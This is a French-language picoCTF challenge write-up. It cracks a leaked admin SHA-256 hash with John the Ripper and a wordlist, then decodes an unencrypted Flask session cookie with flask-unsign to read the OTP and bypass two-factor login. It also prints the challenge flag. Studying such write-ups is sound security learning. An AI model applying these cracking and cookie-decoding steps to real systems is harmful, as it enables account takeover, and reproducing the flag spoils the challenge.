






## Description du Challenge
- **Plateforme :** picoCTF 2026
- **Catégorie :** Web Exploitation
- **Difficulté :** Medium
- **Auteur :** Darkraicg492
- **Description :** *Seems like some data has been leaked! Can you get the flag?*
- **Fichiers fournis :** `app.py` (code de l'application), `users.db` (base de données fuitée)

---

## 🔍 Étape 1 : Analyse des fichiers fuités et cracking

En accédant à l'interface web, nous faisons face à une page de connexion standard.



Puisque nous possédons le fichier `users.db`, nous allons l'analyser à l'aide d'un outil de visualisation SQLite (**SQLite Viewer** ou l'extension dédiée) afin de récupérer les identifiants stockés.



Nous découvrons un utilisateur **`admin`** possédant le hash SHA-256 suivant ainsi que l'option double-facteur (2FA) activée :
`c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67`

### Cracking du Hash
Utilisons **John the Ripper** (ou la plateforme en ligne **CrackStation**) pour retrouver le mot de passe en clair à partir de la liste `rockyou.txt`.

Création du fichier de hash :
```bash
echo "c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67" > hash.txt
```

Lancement de l'attaque par dictionnaire :
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-SHA256
```

Le mot de passe de l'administrateur est trouvé : **`apple@123`**



---

##  Étape 2 : Analyse du code de l'application (`app.py`)

Lorsque nous soumettons ces identifiants de connexion (`admin` / `apple@123`), l'application nous redirige vers une seconde étape de validation exigeant un code OTP (One-Time Password).



Inspectons la fonction `login` présente dans le fichier source `app.py` pour comprendre la gestion de ce code OTP :

```python
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        user = db.get_user_by_username(username)
        if user and hashlib.sha256(password.encode()).hexdigest() == user['password']:
            if user['two_fa']:
                # Generate OTP
                otp = str(random.randint(1000, 9999))
                session['otp_secret'] = otp
                session['otp_timestamp'] = time.time()
                session['username'] = username
                session['logged'] = 'false'
                # send OTP to mail ---
                return redirect(url_for('two_fa'))
            else:
                session['username'] = username
                session['logged'] = 'true'
                flash('Login successful!', 'green')
                return redirect(url_for('home'))
        else:
            flash('Invalid username or password', 'red')
    return render_template('login.html')
```

### La Vulnérabilité
Le code montre que lors d'une connexion réussie avec le 2FA actif, l'application génère un OTP aléatoire entre 1000 et 9999. Cependant, la variable `otp` est stockée **directement côté client au sein de l'objet `session` de Flask**. 

Par défaut, les sessions Flask sont **uniquement signées cryptographiquement pour empêcher leur modification, mais elles ne sont pas chiffrées**. N'importe qui peut lire leur contenu en clair.

---

##  Étape 3 : Exploitation (Décodage de Session)

1. Après avoir validé le premier formulaire de connexion, ouvrez les outils de développement de votre navigateur (`F12`).
2. Allez dans l'onglet **Application / Stockage** puis examinez la valeur du cookie nommé `session`.

Exemple de cookie récupéré :

```text
session=.eJwty0sKgCAQANC7zFoCB_N3mZCcRPCH2iq6ey7aPngPpBoCebBwuTQIGNTZjkFnp7lw1xp_mzHTmC43sFxpIwyiwA2lVoJLBvegXlymlZzPscD7AUgbHGw.aql8Eg.-oLA-ELeUV9MP9JWHPVUIoMbGI0
```

3. Utilisez l'outil **`flask-unsign`** dans votre terminal pour décoder le jeton sans avoir besoin de connaître la clé secrète du serveur :

```bash
flask-unsign -d -c ".eJwty0sKgCAQANC7zFoCB_N3mZCcRPCH2iq6ey7aPngPpBoCebBwuTQIGNTZjkFnp7lw1xp_mzHTmC43sFxpIwyiwA2lVoJLBvegXlymlZzPscD7AUgbHGw.aql8Eg.-oLA-ELeUV9MP9JWHPVUIoMbGI0"
```

### Contenu décodé
```json
{
  "logged": "false", 
  "otp_secret": "5882", 
  "otp_timestamp": 1789492242.2687416, 
  "username": "admin"
}
```



Le code OTP attendu par le serveur est visible en clair dans le champ `otp_secret` : **`5882`**.

Il suffit de soumettre cette valeur dans le formulaire de second facteur pour valider l'authentification et accéder au flag.



---

## 🚩 Flag

```text
picoCTF{n0_r4t3_n0_4uth_3ed5f244}
```

Next ? Approfondissement -- Attaque par falsification de session (Session Forgery)
